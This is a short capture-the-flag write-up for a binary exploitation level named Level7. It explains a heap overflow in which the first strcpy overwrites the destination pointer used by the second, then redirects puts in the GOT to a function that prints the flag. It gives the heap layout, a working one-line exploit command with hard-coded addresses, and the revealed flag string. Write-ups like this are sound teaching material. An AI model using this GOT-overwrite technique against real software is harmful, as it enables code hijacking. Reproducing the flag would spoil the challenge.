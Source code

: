 # Level7

We can see that the program `fgets()` the flag and saves it in `obj.c` but does nothing with it  
There is however a function `m()` that prints `obj.c` but it is not called  

This binary does 4 `malloc` calls in a row

It uses `strcpy` to copy the strings in `av[0]` and `av[1]` to their respective allocated memory  
`strcpy` is unprotected and will copy until it reaches the end of the string of crahes  

We can overflow in during the first strcpy, to overwrite the address used as destination for the second strcpy  
```
#1 malloc(8)	; 0x0804A008 ; 4 bytes store index 1, following 4 store malloc #2 return
#2 malloc(8)	; 0x0804A018 ; destination of strcpy argv[0]
#3 malloc(8)	; 0x0804A028 ; 4 bytes store index 2, following 4 store malloc #4 return
#4 malloc(8)	; 0x0804A038 ; destination of strcpy argv[1] 

`av[0]` will have the address of puts in the GOT with 20 padding so that the address overflows into malloc #3 and replaces the address used as parameter in the second strcpy
`av[1]` will have the address to `m()` to be placed in the GOT

```
./level7 $(python -c "print 20 * 'A' + '\x08\x04\x99\x28'[::-1]") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1581869221
```

